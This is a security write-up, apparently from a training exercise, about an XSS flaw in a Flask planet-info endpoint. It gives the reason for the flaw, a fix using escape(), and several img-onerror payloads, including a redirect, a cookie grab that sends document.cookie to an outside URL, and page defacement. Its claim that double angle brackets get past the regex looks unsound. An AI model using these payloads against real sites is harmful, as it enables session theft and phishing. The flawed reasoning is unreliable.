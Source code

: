 ### This code is vulnerable to [XSS](https://portswigger.net/web-security/cross-site-scripting)

Vulnerable Function: `get_planet_info()` and ```get_planet_info_endpoint()```

### Why its vulnerable?

Re: ```sanitized_planet = re.sub(r'[<>(){}[\]]', '', planet) ```
In this regex, the characters <, >, (, ), {, }, [, and ] are explicitly removed, but whitespace characters are not removed. 
and only ```script``` tag is blocked, so we can use other tags like ```img``` to exploit XSS. 


Exploit: 
```js
<<img src="x" onerror="alert(1)">>
``` 

**Explanation**: In this payload, the double angle brackets, `<<` and `>>`, will not be matched by the regex, so the payload remains unaffected, and the XSS attack will execute.

### How to fix?
We can use Flask's built-in function escape from the Markup module. This function helps to escape special characters in the input, preventing them from being executed as HTML or JavaScript.

Example: 

```python
from flask import Flask, request, render_template, jsonify, escape
```

```python
return f'<h2>Planet Details:</h2><p>{escape(details)}</p>'
```
 
### What else can XSS do?
- Steal cookies and session information
- Redirect to malicious websites
- Modify website content
- Phishing
- Keylogging

### How to prevent XSS?
- Sanitize user input properly
- Use Content Security Policy (CSP)
- Use HttpOnly Cookies
- Use X-XSS-Protection header


### Here are some exploit examples:

#### Redirect to phishing page using XSS 
```
<<img src="x" onerror="window.location.href = 'https://google.com';">>
```

#### Get cookies 
```<<img src="x" onerror="window.location.href = 'https://google.com/?cookie=' + document.cookie;">>
```

#### Modify website content
You can inject any phishing page, malicious page, or any other content to the website using XSS.

```
<<img src="x" onerror="document.body.innerHTML = '<h1>Website is hacked</h1>';">> 
```


 